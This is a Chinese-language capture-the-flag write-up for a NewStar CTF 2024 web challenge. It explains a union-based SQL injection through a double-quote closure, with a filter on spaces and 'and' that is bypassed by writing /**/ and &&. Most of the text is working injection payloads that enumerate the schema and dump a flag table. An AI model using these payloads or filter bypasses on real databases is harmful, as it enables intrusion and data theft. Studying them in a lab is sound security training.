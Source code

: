 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# 谢谢皮蛋 plus

同样还是联合注入，意在考察空格和 `and` 的绕过，为了避免直接使用报错注入得到 flag，将报错注入 ban 了

```php
preg_match_all("/ |extractvalue|updataxml|and/i",$id)
```

值得注意的一个点是，这题是双引号闭合，如果没有细心的检查会误以为是单引号闭合

![注意引号的闭合种类](/assets/images/wp/2024/week2/pidan-plus_1.png)

双引号中带有单引号也可以执行成功，属于mysql的一种特性，可以自行尝试一下

![双引号中带有单引号也可以执行成功](/assets/images/wp/2024/week2/pidan-plus_2.png)

and使用&&替换，空格使用/**/替换，其他就是一样的操作了

查询当前数据库

```sql
-1"/**/union/**/select/**/1,database()#
```

查询所有表名

```sql
-1"/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/=/**/database()#
```

查询所有列名

```sql
-1"/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/=/**/'Fl4g'/**/&&/**/table_schema/**/=/**/database()#
```

得到flag

```sql
-1"/**/union/**/select/**/group_concat(des),group_concat(value)/**/from/**/Fl4g#
```
